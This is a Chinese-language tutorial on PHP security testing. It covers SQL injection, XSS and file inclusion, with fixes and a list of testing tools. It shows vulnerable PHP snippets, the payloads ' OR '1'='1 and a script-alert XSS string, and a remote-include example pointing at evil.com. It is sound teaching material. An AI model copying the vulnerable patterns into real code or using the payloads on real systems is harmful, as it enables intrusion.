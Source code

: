 ```yaml
---
title: PHP 安全测试
description: 了解PHP安全测试的基本概念、常见漏洞类型以及如何通过测试确保PHP应用程序的安全性。
---
```


# PHP 安全测试

PHP是一种广泛使用的服务器端脚本语言，但由于其灵活性和历史原因，PHP应用程序常常成为攻击者的目标。因此，**PHP安全测试**是确保应用程序安全性的关键步骤。本文将介绍PHP安全测试的基本概念、常见漏洞类型以及如何通过测试来发现和修复这些漏洞。

## 什么是PHP安全测试？

PHP安全测试是指通过一系列技术手段，检查PHP应用程序是否存在安全漏洞的过程。这些漏洞可能包括SQL注入、跨站脚本攻击（XSS）、文件包含漏洞等。安全测试的目标是确保应用程序能够抵御潜在的攻击，保护用户数据和系统资源。

## 常见PHP安全漏洞

### 1. SQL注入

SQL注入是一种常见的攻击方式，攻击者通过在输入字段中插入恶意SQL代码，从而操纵数据库查询。以下是一个简单的SQL注入示例：

```php
$username = $_POST['username'];
$password = $_POST['password'];

$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($conn, $sql);
```

如果用户输入 `' OR '1'='1` 作为用户名和密码，SQL查询将变为：

```sql
SELECT * FROM users WHERE username='' OR '1'='1' AND password='' OR '1'='1';
```

这将返回所有用户记录，导致未经授权的访问。

:::caution
**注意**：永远不要直接将用户输入插入SQL查询中，应使用预处理语句或参数化查询。
:::

### 2. 跨站脚本攻击（XSS）

XSS攻击允许攻击者在受害者的浏览器中执行恶意脚本。以下是一个简单的XSS漏洞示例：

```php
$name = $_GET['name'];
echo "Hello, " . $name;
```

如果用户输入 `<script>alert('XSS');</script>` 作为 `name` 参数，浏览器将执行该脚本。

:::tip
**提示**：使用 `htmlspecialchars()` 函数对用户输入进行转义，防止XSS攻击。
:::

### 3. 文件包含漏洞

文件包含漏洞允许攻击者包含并执行服务器上的任意文件。以下是一个文件包含漏洞的示例：

```php
$page = $_GET['page'];
include($page . '.php');
```

如果攻击者将 `page` 参数设置为 `http://evil.com/exploit`，服务器将尝试包含并执行远程文件。

:::warning
**警告**：避免使用用户输入直接包含文件，应使用白名单机制限制可包含的文件。
:::

## 如何进行PHP安全测试

### 1. 手动代码审查

手动审查代码是发现安全漏洞的有效方法。通过仔细检查代码，可以发现潜在的漏洞，如未过滤的用户输入、不安全的函数调用等。

### 2. 使用自动化工具

自动化工具可以帮助快速发现常见的安全漏洞。以下是一些常用的PHP安全测试工具：

- **PHPStan**：静态代码分析工具，帮助发现潜在的安全问题。
- **RIPS**：专门用于PHP代码的安全分析工具，能够检测多种漏洞类型。
- **OWASP ZAP**：用于Web应用程序的安全测试工具，支持自动化扫描。

### 3. 渗透测试

渗透测试是通过模拟攻击来评估应用程序安全性的方法。渗透测试人员会尝试利用已知的漏洞，检查应用程序的防御能力。

## 实际案例

### 案例1：修复SQL注入漏洞

假设我们有一个登录表单，用户输入用户名和密码后，系统会查询数据库验证用户身份。原始代码如下：

```php
$username = $_POST['username'];
$password = $_POST['password'];

$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($conn, $sql);
```

为了修复SQL注入漏洞，我们可以使用预处理语句：

```php
$username = $_POST['username'];
$password = $_POST['password'];

$stmt = $conn->prepare("SELECT * FROM users WHERE username=? AND password=?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();
```

### 案例2：防止XSS攻击

假设我们有一个显示用户名的页面，原始代码如下：

```php
$name = $_GET['name'];
echo "Hello, " . $name;
```

为了防止XSS攻击，我们可以使用 `htmlspecialchars()` 函数对用户输入进行转义：

```php
$name = $_GET['name'];
echo "Hello, " . htmlspecialchars($name, ENT_QUOTES, 'UTF-8');
```

## 总结

PHP安全测试是确保应用程序安全性的重要步骤。通过了解常见的安全漏洞类型，并采用适当的测试方法，可以有效减少应用程序被攻击的风险。无论是手动代码审查、使用自动化工具，还是进行渗透测试，都是确保PHP应用程序安全的重要手段。

## 附加资源与练习

- **练习1**：尝试在本地环境中创建一个简单的PHP应用程序，并模拟SQL注入和XSS攻击，然后修复这些漏洞。
- **练习2**：使用PHPStan或RIPS工具对现有的PHP项目进行安全分析，记录并修复发现的问题。
- **资源**：阅读OWASP的[PHP安全指南](https://owasp.org/www-project-php-security-guide/)，了解更多关于PHP安全的最佳实践。

通过不断学习和实践，你将能够更好地理解和应用PHP安全测试，确保你的应用程序更加安全可靠。